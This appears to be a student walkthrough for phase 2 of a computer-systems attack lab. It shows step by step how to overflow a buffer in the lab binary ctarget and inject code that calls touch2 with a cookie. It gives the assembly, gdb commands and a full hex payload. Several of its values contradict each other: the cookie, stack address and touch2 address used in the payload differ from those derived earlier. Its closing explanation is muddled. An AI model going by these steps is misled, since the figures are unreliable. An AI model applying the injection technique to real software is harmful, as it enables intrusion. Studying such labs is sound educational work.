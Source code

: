 # PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below

```ssh
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 6d d8 51 34 	mov    $0x3451d86d,%rdi
   7:	c3                   	retq   
```
The byte representation of the assembly code is ```48 c7 c7 6d d8 51 34 c3```.

Now we need to find the address of rsp register:

Run ctarget through gdb
```gdb ctarget```

set a breakpoint at getbuf
```b getbuf```

run ctarget
```r```

Dissasemble it
```disas```

You will get something like below:
```assembly
=> 0x0000000000401903 <+0>:	sub    $0x18,%rsp
   0x0000000000401907 <+4>:	mov    %rsp,%rdi
   0x000000000040190a <+7>:	callq  0x401b8d <Gets>
   0x000000000040190f <+12>:	mov    $0x1,%eax
   0x0000000000401914 <+17>:	add    $0x18,%rsp
   0x0000000000401918 <+21>:	retq   
End of assembler dump.
```
Now we need to run the code until the instruction just below ```callq 0x401ab6 <Gets>``` so you will run the following command to get to the addres of that instruction:

```until *0x40190f```

Then you will gwt the promt ```Type string:``` type a string longer than the buffer(24 characters in this case). 

```c
Type string: Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. 
```

After that do:
```assembly
x/s $rsp
```

You will get something like
```assembly
0x55617e98:	"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut a"...
```
The address on the left side is what we want => ```0x55617e98```.

Now, create a text file named ```phase2.txt``` which will look something like below and don't forget the bytes for rsp and touch2 go in reverse (little endian).

```
48 c7 c7 70 4b 4b 43 c3 /*this sets your cookie*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
d8 0c 62 55 00 00 00 00 /* address of register %rsp */
8c 17 40 00 00 00 00 00 /*address of touch2 function */
````
Run it through ```hex2raw```

```./hex2raw < phase2.txt > raw-phase2.txt```

Finally, you run the raw file

```./ctarget < raw-phase2.txt```

What the exploit does is that first it sets register rdi to our cookie value is transferred to $rsp register so after we enter our string and getbuf tries to return control to the calling function, we want it to point to the rsp address so it will execute the code to set the cookie and finally we call touch2 after the cookie is set.

```ssh

```




